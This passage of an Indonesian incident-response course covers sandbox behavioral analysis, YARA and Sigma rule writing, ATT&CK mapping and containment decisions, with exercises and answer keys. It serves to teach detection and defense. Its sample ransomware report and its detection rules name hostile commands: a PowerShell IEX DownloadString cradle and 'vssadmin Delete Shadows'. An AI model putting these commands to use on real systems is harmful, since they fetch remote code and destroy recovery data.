- DNS: payment.bitcoin-recover[.]info → 185.220.101.45
- HTTP POST /payment_id: {"victim_id":"abc123","files_encrypted":847}

=== END REPORT ===
```

Analisis:
- **Tipe malware:** Ransomware — jelas dari: `.locked` extension, `vssadmin Delete Shadows`, README_DECRYPT.txt, C2 POST dengan jumlah file terenkripsi
- **Persistence:** Registry Run Key
- **C2:** payment site untuk ransom
- **ATT&CK:** T1490 (Inhibit System Recovery — vssadmin), T1486 (Data Encrypted for Impact), T1547.001 (Registry Run Keys persistence)

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menganalisis behavioral report dari sandbox run dan mengklasifikasikan malware.

**Aktivitas (berbasis dataset statis dari dosen — tanpa eksekusi malware):**
1. Dosen menyediakan behavioral report lengkap (JSON atau teks) dari sandbox run yang sudah dilakukan sebelumnya.
2. Analisis process tree: identifikasi parent-child relationships yang mencurigakan.
3. Analisis file system activity: file apa yang dibuat, dimodifikasi, dihapus?
4. Analisis registry activity: apakah ada persistence mechanism?
5. Analisis network activity: C2 domain/IP, protokol yang digunakan, data apa yang dikirim?
6. Klasifikasikan tipe malware berdasarkan behavioral indicators.
7. Identifikasi ATT&CK techniques dari behaviors yang terobservasi.

**Output:** Behavioral analysis notes — bagian dari Eval-3.

## 8. Latihan Pemahaman

1. **(C4)** Sandbox mendeteksi bahwa malware berjalan selama 30 detik dan tidak menunjukkan aktivitas berbahaya apapun, kemudian berhenti. Analis menyimpulkan bahwa sample tidak berbahaya. Apa masalah dengan kesimpulan ini, dan bagaimana cara mengatasinya?

2. **(C3)** Mengapa "fake DNS server" dalam sandbox penting? Apa yang terjadi tanpa komponen ini dalam analisis behavioral?

## 9. Latihan Terapan / Studi Kasus

Diberikan behavioral report dari dua sampel malware (dataset dari dosen), Anda harus: (a) klasifikasikan tipe setiap sampel berdasarkan behaviors yang terobservasi; (b) identifikasi minimum 3 ATT&CK techniques untuk masing-masing; (c) tentukan sampel mana yang lebih berbahaya dan mengapa; (d) apa satu tindakan containment paling penting jika setiap sampel ditemukan dalam organisasi nyata?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Masalah dengan kesimpulan: malware kemungkinan menggunakan time-based evasion (sleep) — 30 detik tidak cukup lama untuk trigger aktivitas berbahaya. Kemungkinan lain: environment check gagal (malware mendeteksi sandbox dan menghentikan eksekusi). Cara mengatasi: (a) perpanjang durasi sandbox run (5-10 menit minimal, beberapa malware sleep hingga 60+ menit); (b) patch sleep calls dalam binary (teknik lanjutan: patch `Sleep()` import ke no-op); (c) gunakan VM yang terlihat lebih "nyata" (username realistis, browser history, file-file user); (d) pertimbangkan fake user activity simulation (mouse movement, clipboard activity).

**Soal 2:** Tanpa fake DNS server: (a) semua DNS queries malware akan NXDOMAIN (tidak ada internet nyata dalam sandbox) → malware mungkin mendeteksi bahwa koneksi gagal dan berhenti atau mode dorman; (b) network C2 domain tidak terekam karena DNS resolution gagal sebelum TCP connection dimulai; (c) backup C2 mechanisms juga tidak teranalisis. Dengan fake DNS: semua domain malware di-resolve ke IP yang dikontrol sandbox → malware "percaya" C2 accessible → melanjutkan eksekusi dan mengirimkan beacon/data → kita bisa melihat data yang dikirim ke C2 (walau dalam sandbox, tidak ke C2 nyata) dan menganalisis protokol komunikasi.

**Studi Kasus (framework):** Bandingkan dua sampel berdasarkan: jenis data yang ditarget (file encryption vs. credential theft → keduanya serius tapi berbeda dampaknya), persistence mechanism (mana yang lebih sulit di-eradicate), C2 communication frequency (beacon setiap 5 detik lebih agresif dari setiap 1 jam), capability untuk lateral movement (mana yang mencoba menyebar ke host lain?). "Lebih berbahaya" bergantung pada konteks: ransomware yang langsung enkripsi semua file mungkin dampak immediate lebih besar; RAT dengan persistence yang kuat mungkin lebih sulit di-eradicate.

## 11. Ringkasan Bab

Dynamic/behavioral analysis mengeksekusi malware dalam sandbox terkontrol untuk mengobservasi perilaku aktual. Sandbox memerlukan monitoring layer (API hooks, syscall tracing) dan network simulation (fake DNS, fake HTTP). Behavioral indicators mencakup process tree, file activity, registry changes, dan network communications. Sandbox evasion (time delay, environment checks, VM detection) adalah tantangan yang harus diatasi dengan konfigurasi sandbox yang realistis.

## 12. Refleksi Profesional

1. Komunitas keamanan siber sering berbagi sampel malware dan laporan analisis melalui platform publik (VirusTotal, Any.run public reports, MalwareBazaar). Sementara ini bermanfaat untuk community defense, ada risiko bahwa attacker juga dapat mengakses laporan ini untuk mengetahui bahwa malware mereka telah terdeteksi dan dianalisis. Bagaimana Anda menyeimbangkan nilai berbagi informasi ancaman dengan risiko memberikan "early warning" kepada attacker?

---

# BAB 9 — IOC EXTRACTION, YARA/SIGMA SIGNATURES, DAN ATT&CK TTP MAPPING

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengekstrak IOC dari hasil static dan behavioral analysis secara komprehensif
- Memahami prinsip penulisan YARA rule untuk deteksi malware
- Memahami prinsip penulisan Sigma rule untuk deteksi berbasis log
- Memetakan temuan malware analysis ke MITRE ATT&CK secara sistematis
- Menyusun malware analysis report yang profesional

*Berkaitan dengan Sub-CPMK-3, Eval-3 (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Malware Analysis Output] --> B[IOC Compilation]
    B --> B1["Network IOC:\ndomain, IP, URL, JA3"]
    B --> B2["Host IOC:\nhash, path, registry,\nscheduled task, service"]
    B --> B3["Behavioral IOC:\nprocess tree pattern,\nAPI call sequence"]
    A --> C[Signature Writing]
    C --> C1["YARA: pattern matching\nuntuk file/memory scanning"]
    C --> C2["Sigma: log-based detection\nvendor-agnostic rule format"]
    A --> D[ATT&CK TTP Mapping]
    D --> D1["Taktik: tujuan high-level\n(Initial Access, Persistence...)"]
    D --> D2["Teknik: cara mencapai taktik\n(T1566, T1547.001...)"]
    D --> D3["Coverage analysis:\napakah defense kita\ncovers teknik ini?"]
    A --> E[Malware Lab Report]
    E --> E1["Executive Summary"]
    E --> E2["Static Analysis Findings"]
    E --> E3["Behavioral Findings"]
    E --> E4["IOC Table"]
    E --> E5["ATT&CK Mapping"]
    E --> E6["Recommendations"]
```

## 3. Pengantar Kontekstual

Analisis malware yang berhenti pada "kami menemukan malware dan menghapusnya" tidak memberikan nilai jangka panjang. Nilai sebenarnya dari malware analysis muncul ketika temuan dikonversi menjadi deteksi yang dapat di-deploy (YARA, Sigma), IOC yang dapat dishare dengan komunitas, dan pemahaman tentang TTPs yang memungkinkan peningkatan defense. Bab ini mengajarkan bagaimana mengkomunikasikan temuan analisis malware dalam format yang dapat ditindaklanjuti.

## 4. Landasan Teori

### 4.1 YARA Rules

YARA adalah "pattern matching swiss knife for malware researchers" — memungkinkan penulisan rules berdasarkan karakteristik file (strings, binary patterns, metadata) untuk mendeteksi malware dalam file system atau memory.

**Anatomi YARA Rule:**
```yara
rule Malware_Emotet_Dropper_2025 {
    meta:
        description = "Detects Emotet dropper variant observed in September 2025"
        author = "CSIRT Team"
        date = "2025-09-12"
        hash = "a3b4c5d6e7f8901234567890abcdef01"
        reference = "Internal Investigation INC-2025-0047"
        tlp = "TLP:WHITE"  // Traffic Light Protocol
    
    strings:
        // Hardcoded C2 domain yang ditemukan dalam static analysis
        $c2_domain = "c2server.xyz" nocase
        
        // PowerShell download string yang ditemukan dalam strings
        $ps_download = "IEX(New-Object Net.WebClient).DownloadString" nocase
        
        // Binary pattern: magic bytes + PE header offset pattern unik
        $pe_header = { 4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF }
        
        // Registry persistence key path
        $reg_persist = "\\CurrentVersion\\Run\\updater" nocase
        
        // Ransom note string (jika applicable)
        // $ransom_note = "YOUR FILES HAVE BEEN ENCRYPTED" nocase
    
    condition:
        // File adalah Windows PE (magic bytes MZ)
        uint16(0) == 0x5A4D
        // AND minimal 2 dari 4 strings ditemukan
        and 2 of ($c2_domain, $ps_download, $reg_persist, $pe_header)
}
```

**Menjalankan YARA:**
```bash
# Scan satu file
yara malware_rules.yar suspicious_file.exe

# Scan direktori recursively (untuk hunting di file system)
yara -r malware_rules.yar /path/to/scan/

# Scan memory dump (dengan module --proc-memory atau dengan dump file)
yara malware_rules.yar memory_dump.lime
```

**Prinsip menulis YARA yang baik:**
- Gunakan kombinasi strings (minimal 2-3) untuk mengurangi FP
- Hindari strings yang terlalu umum (misalnya "Windows" saja)
- Tambahkan condition berbasis file type (uint16(0) == 0x5A4D untuk PE)
- Test dengan sampel legitimate untuk memastikan tidak ada FP
- Tambahkan metadata lengkap: author, date, reference, tlp

### 4.2 Sigma Rules

Sigma adalah "generic signature format for SIEM systems" — memungkinkan penulisan detection logic dalam format YAML yang dapat dikonversi ke query untuk berbagai SIEM (Elastic, Splunk, QRadar, dll.).

**Anatomi Sigma Rule:**
```yaml
title: Malware Dropper PowerShell Download Cradle
id: 7f3d8e2a-1b4c-5d6e-7f8a-9b0c1d2e3f4a
status: experimental
description: >
  Detects PowerShell IEX download cradle commonly used by malware droppers.
  Observed in Emotet and similar dropper families.
author: CSIRT Team
date: 2025/09/12
references:
  - https://attack.mitre.org/techniques/T1059/001/
  - Internal Investigation INC-2025-0047
tags:
  - attack.execution
  - attack.t1059.001
  - attack.defense_evasion
  - attack.t1027

logsource:
  category: process_creation    # Sumber: Sysmon Event ID 1 / Security Event 4688
  product: windows

detection:
  selection:
    # PowerShell dengan parameter yang digunakan untuk evasion
    CommandLine|contains|all:
      - 'powershell'
      - 'IEX'                   # atau Invoke-Expression
      - 'DownloadString'        # download dari URL
    CommandLine|contains:
      - '-NoP'                  # -NoProfile: no PS profile
      - '-Exec Bypass'          # bypass execution policy
      - '-W Hidden'             # hidden window
  filter:
    # Exclude legitimate tools yang menggunakan pola ini (false positive reduction)
    CommandLine|contains:
      - 'legitapp.exe'          # legitimate admin tool yang diketahui
  
  condition: selection and not filter

fields:
  - CommandLine
  - ParentCommandLine
  - User

falsepositives:
  - Legitimate IT management tools yang menggunakan PowerShell download
  - SCCM, MDM solutions

level: high    # critical, high, medium, low, informational
```

**Konversi Sigma ke SIEM query:**
```bash
# Sigma tools mengkonversi rule ke berbagai backend
# Konversi ke Elasticsearch/KQL
sigma convert -t elasticsearch malware_dropper.yml

# Konversi ke Splunk SPL
sigma convert -t splunk malware_dropper.yml

# Konversi ke Suricata rule (untuk network-based detection)
sigma convert -t suricata malware_dropper.yml
```

### 4.3 ATT&CK TTP Mapping

Setelah analisis, setiap behavior yang terobservasi harus dipetakan ke ATT&CK technique yang spesifik:

**Template mapping table:**

| # | Behavior yang Terobservasi | Taktik ATT&CK | Technique | Sub-Technique | Evidence |
|---|---|---|---|---|---|
| 1 | Email phishing dengan attachment .docm | Initial Access | T1566 | T1566.001 (Spearphishing Attachment) | Exchange log + sample |
| 2 | Word makro mendownload payload | Execution | T1204 | T1204.002 (Malicious File) | Sysmon Event 1 |
| 3 | PowerShell -NoP -Exec Bypass download | Execution | T1059 | T1059.001 (PowerShell) | Sysmon Event 1 |
| 4 | Registry Run Key untuk persistence | Persistence | T1547 | T1547.001 (Registry Run Keys) | Registry export |
| 5 | Process injection ke explorer.exe | Defense Evasion | T1055 | T1055.001 (DLL Injection) | Memory analysis |
| 6 | whoami, net user, ipconfig | Discovery | T1033/T1082 | T1082 (System Info) | Sysmon Event 1 |
| 7 | Koneksi ke C2 via HTTPS | C2 | T1071 | T1071.001 (Web Protocols) | Network PCAP |
| 8 | vssadmin Delete Shadows | Impact | T1490 | N/A (Inhibit System Recovery) | Sysmon Event 1 |
| 9 | File .locked extension added | Impact | T1486 | N/A (Data Encrypted for Impact) | Behavioral report |

### 4.4 Malware Analysis Lab Report — Struktur

```
MALWARE ANALYSIS LAB REPORT
============================
Insiden ID: INC-2025-NNNN
Sampel: [nama file] | SHA256: [hash]
Analis: [Nama]
Tanggal Analisis: [Tanggal]
Klasifikasi TLP: TLP:AMBER (internal distribution)

1. EXECUTIVE SUMMARY (1 paragraf)
   Tipe malware, metode delivery, kapabilitas utama, dampak potensial, 
   dan rekomendasi utama dalam bahasa non-teknis.

2. STATIC ANALYSIS FINDINGS
   - File metadata (type, size, compile timestamp jika ada)
   - Hash (MD5, SHA1, SHA256)
   - Threat intel match (Y/N, jika ya: keluarga malware, confidence)
   - Strings signifikan: URL, domain, IP, registry paths, command strings
   - PE analysis (imports, sections, entropy)
   - Packer: terdeteksi/tidak

3. BEHAVIORAL ANALYSIS FINDINGS
   - Process tree
   - File system activity (file dibuat/dihapus/dimodifikasi)
   - Registry activity (persistence mechanism)
   - Network activity (C2 communication, DNS, HTTP)
   - Memory activity (injection, hollowing)
   - Sandbox evasion attempts (terdeteksi/tidak)

4. IOC TABLE
   [Tabel lengkap semua IOC dengan tipe, nilai, confidence, sumber]

5. ATT&CK TTP MAPPING
   [Tabel mapping: behavior → taktik → teknik]

6. SIGNATURE NOTES
   - YARA rule concept (atau draft rule)
   - Sigma rule concept (atau draft rule)

7. REKOMENDASI
   - Detection: tambahkan rule/signature apa?
   - Prevention: patch apa, setting apa yang perlu diubah?
   - Hunting: apakah perlu threat hunt untuk host lain yang mungkin terinfeksi?
   - Long-term: perbaikan struktural apa yang diperlukan?
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    STATIC["Static Analysis\nFindings"]
    BEHAVIORAL["Behavioral Analysis\nFindings"]
    IOC_TABLE["IOC Compilation\n(Network + Host + Behavioral)"]
    ATTACK_MAP["ATT&CK TTP\nMapping"]
    YARA_DRAFT["YARA Rule Draft\n(file/memory detection)"]
    SIGMA_DRAFT["Sigma Rule Draft\n(log-based detection)"]
    REPORT["Malware Analysis\nLab Report"]
    ACTIONS["Actionable Outputs:\n• Block IOC in firewall/DNS\n• Deploy YARA/Sigma rules\n• Threat hunt for similar artifacts\n• Patch vulnerability used"]

    STATIC --> IOC_TABLE
    BEHAVIORAL --> IOC_TABLE
    IOC_TABLE --> ATTACK_MAP
    STATIC --> YARA_DRAFT
    BEHAVIORAL --> SIGMA_DRAFT
    IOC_TABLE & ATTACK_MAP & YARA_DRAFT & SIGMA_DRAFT --> REPORT
    REPORT --> ACTIONS
```

## 6. Contoh Terapan

**YARA rule dari sampel yang dianalisis:**

```yara
rule Ransomware_LockFile_Sep2025 {
    meta:
        description = "Detects LockFile ransomware variant from Sep 2025 campaign"
        author = "CSIRT FDKS PENS"
        date = "2025-09-12"
        sha256 = "a3b4c5d6e7f890..."
        mitre = "T1486, T1490, T1547.001"
        
    strings:
        $ransom_note = "YOUR FILES HAVE BEEN ENCRYPTED" nocase
        $extension = ".locked" nocase
        $vssadmin = "vssadmin Delete Shadows" nocase
        $bitcoin = "bitcoin" nocase
        $c2 = "payment.bitcoin-recover" nocase
        
    condition:
        uint16(0) == 0x5A4D  // PE file
        and (
            ($ransom_note and $extension) or
            ($vssadmin and $bitcoin) or
            $c2
        )
}
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menyusun laporan malware analysis lengkap dengan IOC, ATT&CK mapping, dan draft signature.

**Input:** Hasil static analysis notes (Bab 7) dan behavioral analysis notes (Bab 8) dari dataset dosen.

**Langkah:**
1. Kompilasi semua IOC ke dalam IOC Table terstruktur.
2. Buat ATT&CK mapping table dari semua behaviors yang terobservasi.
3. Tulis draft YARA rule berdasarkan strings dan pattern dari static analysis.
4. Tulis draft Sigma rule untuk mendeteksi behavior paling distinctive (misalnya PowerShell download cradle atau registry persistence).
5. Susun malware analysis lab report lengkap menggunakan template di atas.

**Output:** Malware analysis lab report (Eval-3 — 25% dari total nilai).

## 8. Latihan Pemahaman

1. **(C4)** Sebuah YARA rule yang terlalu spesifik hanya akan mendeteksi satu hash malware tertentu. Sebuah rule yang terlalu generik akan menghasilkan FP pada file legitimate. Bagaimana Anda menyeimbangkan specificity dan sensitivity dalam penulisan YARA rule?

2. **(C3)** Apa keunggulan format Sigma dibandingkan menulis SIEM query langsung (misalnya Splunk SPL atau Elasticsearch KQL)?

## 9. Latihan Terapan / Studi Kasus

Setelah analisis malware dari dataset yang diberikan, tim Anda harus mempresentasikan temuan kepada CISO yang non-teknis. Susun: (a) executive summary 1 paragraf dalam bahasa bisnis (tanpa jargon teknis berlebihan); (b) 3 rekomendasi paling penting, urutan prioritas, dengan estimasi effort implementasi (Low/Medium/High); (c) pertanyaan apa yang kemungkinan akan ditanyakan CISO, dan bagaimana Anda menjawabnya?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Keseimbangan YARA specificity-sensitivity: (a) gunakan kombinasi strings yang mencerminkan karakteristik "keluarga" malware, bukan hanya satu sampel — misalnya pola C2 URL yang konsisten dalam satu campaign lebih baik dari hash tunggal; (b) gunakan condition operator: `2 of ($string_*)` — match jika minimal 2 dari N strings ditemukan, bukan harus semua; (c) test dengan corpus: uji rule terhadap: (i) sampel dari keluarga yang sama untuk memastikan deteksi (sensitivity), (ii) file legitimate yang mirip untuk memastikan tidak FP (specificity); (d) hindari strings yang muncul di banyak program legitimate (misalnya "powershell", "cmd.exe"); fokus pada kombinasi yang unik untuk malware ini; (e) pertimbangkan rule bertingkat: high confidence rule (spesifik, sedikit FP) + medium confidence rule (lebih generik, perlu triage).

**Soal 2:** Keunggulan Sigma: (a) **vendor-agnostic**: tulis satu rule, convert ke Elastic, Splunk, QRadar, Microsoft Sentinel dengan tool converter — tidak perlu menulis ulang per platform; (b) **readable**: format YAML yang human-readable lebih mudah di-review dan di-audit; (c) **community standard**: dapat dishare dengan komunitas keamanan secara langsung (repositori sigma-rules di GitHub); (d) **structured metadata**: TLP, author, date, ATT&CK tags built-in dalam format; (e) **easier false positive documentation**: `falsepositives` field dalam Sigma mendorong dokumentasi FP yang ekspilisit; (f) **version control friendly**: YAML format mudah untuk git diff dan code review.

**Studi Kasus Executive Communication:** (a) Executive summary contoh: "Tim keamanan telah menganalisis malware yang berhasil masuk ke jaringan perusahaan melalui email yang menyamar sebagai invoice. Malware ini dirancang untuk mengenkripsi semua file bisnis dan menuntut tebusan. Meskipun insiden telah ditangani, analisis ini memungkinkan kami membangun perlindungan tambahan untuk mencegah serangan serupa dan mendeteksi jika ada sisa infeksi." (b) Tiga rekomendasi prioritas: (1) SEGERA — deploy IOC blocking (domain/IP) di firewall dan DNS: Effort LOW, dampak IMMEDIATE; (2) MINGGU INI — aktifkan email gateway sandboxing untuk semua attachment Office: Effort MEDIUM, mencegah vektor utama; (3) BULAN INI — implementasikan backup 3-2-1 yang offline (ransomware-proof): Effort MEDIUM-HIGH, mitigasi dampak jika terjadi lagi. (c) Pertanyaan CISO yang mungkin: "Apakah data kita dicuri?" (jawab dengan data dari behavioral report — apakah ada exfiltration terdeteksi?); "Siapa yang melakukan ini?" (jangan over-claim attribution — jelaskan apa yang diketahui dan tidak diketahui); "Apakah kita perlu lapor ke OJK/BSSN?" (tergantung jenis data yang terdampak — libatkan Legal).

## 11. Ringkasan Bab

YARA rules mendeteksi malware berdasarkan pattern dalam file/memory menggunakan kombinasi strings dan conditions. Sigma rules mendeteksi malware berdasarkan log events dalam format vendor-agnostic yang dapat dikonversi ke berbagai SIEM. ATT&CK TTP mapping mengkonversi behaviors menjadi taktik dan teknik yang terstandar. Malware analysis lab report mengintegrasikan semua temuan menjadi dokumen yang dapat ditindaklanjuti.

## 12. Refleksi Profesional

1. IOC yang Anda buat dari malware analysis dapat dishare dengan komunitas keamanan untuk membantu organisasi lain yang mungkin menjadi target serangan yang sama. Namun sharing IOC juga dapat memberi informasi kepada attacker bahwa malware mereka telah teranalisis. Kapan dan bagaimana Anda memutuskan untuk membagikan IOC, dan melalui platform apa?


---

# BAB 10 — CONTAINMENT STRATEGIES: ISOLASI DAN PENGENDALIAN INSIDEN

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Membedakan strategi containment jangka pendek, jangka menengah, dan jangka panjang
- Memilih teknik isolasi yang tepat berdasarkan tipe insiden dan konteks organisasi
- Mendokumentasikan keputusan containment dengan alasan yang dapat diaudit
- Menyeimbangkan kebutuhan keamanan dengan kebutuhan kelangsungan bisnis

*Berkaitan dengan Sub-CPMK-4, Eval-4 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Containment Decision] --> B[Containment Type]
    B --> B1["Short-term: immediate,\nbuat breathing room"]
    B --> B2["Long-term: structural,\nhindari re-infection"]
    A --> C[Isolation Techniques]
    C --> C1["Network isolation:\nVLAN, ACL, firewall rule"]
    C --> C2["Host isolation:\nendpoint agent, physical disconnect"]
    C --> C3["Account isolation:\ndisable compromised accounts"]
    C --> C4["Cloud isolation:\nsecurity group, IAM policy"]
    A --> D[Decision Factors]
    D --> D1["Kritikalitas sistem:\napakah boleh di-offline?"]
    D --> D2["Evidence preservation:\njangan hapus sebelum difoto"]
    D --> D3["Lateral movement risk:\napakah attacker sudah menyebar?"]
    D --> D4["Business impact:\napakah containment membuat bisnis berhenti?"]
    A --> E[Documentation]
    E --> E1["Containment decision log:\napa, mengapa, kapan, siapa"]
    E --> E2["Before/after state:\nscreenshot, netstat, ps"]
    E --> E3["Evidence preserved:\nhash sebelum action"]
```

## 3. Pengantar Kontekstual

Containment adalah fase yang paling penuh tekanan dalam IR. Analis menghadapi paradoks: harus bertindak cepat untuk membatasi kerusakan, tapi juga harus berhati-hati agar tidak merusak evidence, tidak membuat attacker sadar bahwa mereka terdeteksi, dan tidak menghentikan sistem bisnis yang kritis. Keputusan yang terburu-buru — seperti langsung mematikan seluruh server — dapat menghancurkan volatile evidence dan mengakibatkan downtime yang lebih besar dari insiden itu sendiri. Bab ini mengajarkan cara berpikir sistematis tentang containment.

## 4. Landasan Teori

### 4.1 Short-term Containment

Tujuan: membeli waktu untuk analisis dan perencanaan tanpa mengubah state sistem secara drastis.

**Teknik short-term containment:**

1. **Network isolation via VLAN/firewall:** Pindahkan host yang terinfeksi ke VLAN karantina yang memblokir komunikasi ke/dari jaringan produksi dan internet, tapi mempertahankan akses untuk tim IR.
   ```
   Contoh: VLAN 999 (Quarantine) — hanya mengizinkan traffic dari management network IR
   Firewall rule: DENY ALL from VLAN999 to ANY; ALLOW IR_MANAGEMENT_NET to VLAN999
   ```

2. **Endpoint isolation via EDR:** Jika EDR tersedia (CrowdStrike, Carbon Black, Microsoft Defender for Endpoint), gunakan fitur "network contain" yang memblokir semua komunikasi kecuali ke EDR server — host tetap online dan dapat dianalisis secara remote.

3. **Disable internet access saja (partial isolation):** Jika sistem sangat kritis (tidak bisa di-offline sama sekali), blokir hanya komunikasi ke internet/C2 yang diketahui sambil mempertahankan koneksi internal. Risiko: attacker mungkin masih bisa bergerak lateral.

4. **Account disabling:** Segera disable semua akun yang diduga dikompromis. Untuk AD: `Disable-ADAccount -Identity alice`. Jangan hapus — preservasi forensik.

### 4.2 Long-term Containment

Tujuan: memastikan attacker tidak dapat kembali selagi eradication dan recovery disiapkan.

**Teknik long-term containment:**

1. **Rebuild parallel system:** Siapkan sistem pengganti yang bersih sambil sistem terinfeksi tetap di karantina untuk analisis lebih lanjut.

2. **Patch vulnerability yang dieksploitasi:** Jika initial access vector diketahui (misalnya CVE tertentu), patch sistem yang masih rentan untuk mencegah re-infection.

3. **Credential reset massal:** Reset semua password yang mungkin ter-compromise (domain admin, service accounts). Jika KRBTGT compromise dicurigai, reset 2x dengan jeda 10 jam untuk invalidasi Golden Ticket.

4. **IOC blocking di perimeter:** Deploy semua IOC (IP, domain, file hash) ke firewall, DNS blocklist, dan EDR blocking rules.

5. **Enhanced monitoring:** Deploy aturan monitoring tambahan untuk mendeteksi bila attacker mencoba kembali dengan metode berbeda.

### 4.3 Keputusan Containment: Framework

Tidak ada keputusan containment "universal". Setiap keputusan harus mempertimbangkan:

| Faktor | Pertanyaan Kunci | Implikasi |
|---|---|---|
| Volatility of evidence | Apakah mematikan sistem akan menghilangkan evidence penting? | Ambil memory dump SEBELUM isolasi jika mungkin |
| Business criticality | Sistem ini mendukung proses bisnis apa? Berapa lama boleh offline? | Koordinasi dengan business owner |
| Lateral movement scope | Apakah attacker sudah menyebar ke host lain? | Isolasi satu host mungkin tidak cukup |
| Attacker awareness | Apakah attacker tahu bahwa mereka terdeteksi? | Jika belum tahu: pertimbangkan "soft" isolation |
| Legal/regulatory | Apakah ada kewajiban melaporkan dalam batas waktu tertentu? | UU PDP: 14 hari |

### 4.4 Containment Decision Log

Setiap tindakan containment harus didokumentasikan:
```
CONTAINMENT DECISION LOG
========================
Waktu: 2025-09-12 14:37 WIB
Analis: Tim IR FDKS
Sistem yang terdampak: DC01 (192.168.1.10), WS-ALICE (192.168.1.105)

TINDAKAN: Isolasi jaringan WS-ALICE ke VLAN999
ALASAN: WS-ALICE menunjukkan IOC aktif (koneksi ke C2 IP 185.220.101.45).
        DC01 dipertahankan online (monitoring ketat) karena kritis untuk seluruh domain.
        Memory dump WS-ALICE telah diamankan sebelum isolasi.
PERSETUJUAN: Disetujui oleh Manajer IR (Ferry Astika)
STATE SEBELUM TINDAKAN: [screenshot netstat, ps aux tersimpan sebagai evidence]
WAKTU SELESAI: 14:42 WIB
HASIL: WS-ALICE terisolasi; tidak ada traffic keluar ke C2 terdeteksi sejak 14:42 WIB
```

## 5. Model atau Arsitektur

```mermaid
stateDiagram-v2
    [*] --> Detection: Insiden Terdeteksi
    Detection --> Triage: Severity Assessment
    
    Triage --> QuickContain: Severity HIGH/CRITICAL
    Triage --> Monitor: Severity LOW/MEDIUM\n(perlu lebih banyak info)
    
    QuickContain --> Evidence: Ambil Memory Dump\nSebelum Isolasi
    Evidence --> Isolate: Isolasi via VLAN/EDR/AD
    Isolate --> Analyze: Remote Analysis\ndi Host Terisolasi
    Analyze --> LongTerm: Siapkan Long-term\nContainment Plan
    
    Monitor --> Analyze
    LongTerm --> Eradication: Handoff ke Fase\nEradication
```

## 6. Contoh Terapan

**Skenario: Ransomware terdeteksi di 3 dari 200 workstation**

```
Jam 10:15 — Alert: EDR mendeteksi ransomware behavior di WS-FINANCE-01
Jam 10:17 — Konfirmasi manual: proses enkripsi aktif, file extension .locked terdeteksi
Jam 10:18 — PRIORITAS UTAMA: periksa apakah sudah ada lateral movement

LATERAL MOVEMENT ASSESSMENT (5 menit):
- Cek: apakah WS-FINANCE-02, WS-FINANCE-03 juga ada alert? → YA, 2 lainnya juga
- Cek: apakah file server (FS01) terindikasi? → Cek share access log → ADA akses dari WS-FINANCE-01 ke FS01 jam 10:09 → KRITIS!

KEPUTUSAN CONTAINMENT (10:23):
1. SEGERA: Isolasi WS-FINANCE-01, 02, 03 via EDR network contain
2. SEGERA: Disconnect FS01 dari jaringan (tidak bisa EDR contain — butuh emergency shutdown prosedur)
   → Persetujuan: minta ke CFO (sistem kritis finance)
3. SEGERA: Cek backup FS01 — apakah backup terkontaminasi?
4. 30 MENIT: Reset password semua akun yang login ke WS-FINANCE-* kemarin

DOKUMENTASI: Semua tindakan dicatat dalam containment log dengan timestamp
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Mensimulasikan pengambilan keputusan containment dalam skenario insiden.

**Aktivitas (table-top exercise — tidak memerlukan eksekusi malware):**
Dosen menyediakan skenario insiden lengkap (deskripsi sistem, topologi, alert timeline). Mahasiswa dalam kelompok harus:
1. Mengidentifikasi scope infeksi berdasarkan data yang tersedia.
2. Menentukan tindakan containment prioritas (apa yang dilakukan pertama, kedua, ketiga).
3. Mempertimbangkan tradeoffs: business impact vs. containment efficacy.
4. Mendokumentasikan keputusan dalam format Containment Decision Log.
5. Mempresentasikan keputusan dan justifikasi kepada kelas.

**Output:** Containment decision memo — bagian dari Eval-4.

## 8. Latihan Pemahaman

1. **(C4)** Sebuah domain controller terinfeksi ransomware. Tim IR ingin segera mematikannya. Analis senior menolak dan meminta memory dump diambil dulu. Mengapa? Apa yang mungkin hilang jika langsung dimatikan?

2. **(C5)** Anda menemukan bahwa attacker telah diam-diam dalam jaringan selama 3 bulan. Apakah "containment" masih masuk akal? Apa tantangan khusus dari skenario "dwell time panjang" ini?

## 9. Latihan Terapan / Studi Kasus

Diberikan skenario: ransomware telah mengenkripsi 40% dari file server dan masih berjalan. Anda memiliki 5 menit untuk mengambil keputusan. Tiga opsi tersedia: (a) matikan seluruh jaringan segmen; (b) isolasi individual host yang terinfeksi via EDR; (c) biarkan berjalan sambil monitoring untuk memahami scope. Analisis setiap opsi dari perspektif: evidence preservation, business impact, containment efficacy, dan etika/tanggung jawab profesional. Rekomendasikan satu pilihan dan justifikasikan.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Domain controller menyimpan volatile data kritis untuk investigasi: (a) proses yang sedang berjalan (malware process, injeksi ke proses LSASS yang sangat relevan untuk credential theft); (b) koneksi jaringan aktif yang menunjukkan C2 dan lateral movement; (c) encryption keys yang mungkin masih dalam memori (untuk ransomware, ini berarti kemungkinan bisa decrypt file tanpa membayar tebusan — ini kehilangan yang sangat mahal jika VM langsung dimatikan); (d) user sessions aktif yang membuktikan siapa sedang terhubung saat insiden. Memory dump pertama adalah prosedur yang benar karena mengikuti order of volatility (RFC 3227): data paling volatile ditangkap dahulu sebelum tindakan yang akan mengubah state sistem.

**Soal 2:** Skenario dwell time 3 bulan menghadirkan tantangan: (a) attacker mungkin sudah establish multiple persistence mechanisms — satu containment action tidak cukup; (b) attacker mungkin sudah exfiltrate data dalam 3 bulan tersebut — containment tidak mencegah kerusakan yang sudah terjadi, hanya mencegah kerusakan lanjutan; (c) attacker mungkin sudah menanam backdoor di banyak host — sulit untuk yakin bahwa semua TTPs sudah ditemukan; (d) "big bang" containment (isolasi semua sekaligus) mungkin membuat attacker panik dan melakukan destructive action (hapus data, deploy ransomware) sebagai "scorched earth" sebelum dikeluarkan. Strategi yang lebih tepat: phase containment — pelajari lebih dulu semua persistence, siapkan eradication plan yang komprehensif, baru eksekusi containment secara koordinasi dan cepat dalam satu jendela waktu sempit.

